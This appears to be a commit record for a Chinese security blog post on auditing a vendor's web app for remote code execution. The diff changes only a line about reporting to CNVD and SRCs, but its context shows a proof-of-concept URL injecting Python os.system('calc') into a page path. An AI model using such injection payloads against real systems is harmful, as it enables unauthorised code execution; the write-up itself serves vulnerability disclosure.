

Before and after one commit to Leeyangee/leeyangee.github.io, a Jekyll site: the page built from _posts/2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md, in a window 1280 px wide and 900 px high, scrolled down 3693 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md

```diff
--- a/_posts/2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md
+++ b/_posts/2024-03-24-某A大厂Web审计实战-从不出货到拿下通用RCE漏洞.md
@@ -87,4 +87,4 @@ http://127.0.0.1:8001/index+__import__('os').system('calc').html
 服务端直接弹出计算器，证明存在RCE漏洞，直接拿下
 ![avatar](/image/2024-03-23-7.png)
 
-后续已经交CNVD了，等审核完再更新吧
+后续已经交CNVD和一些SRC了，等审核完再更新吧.
```
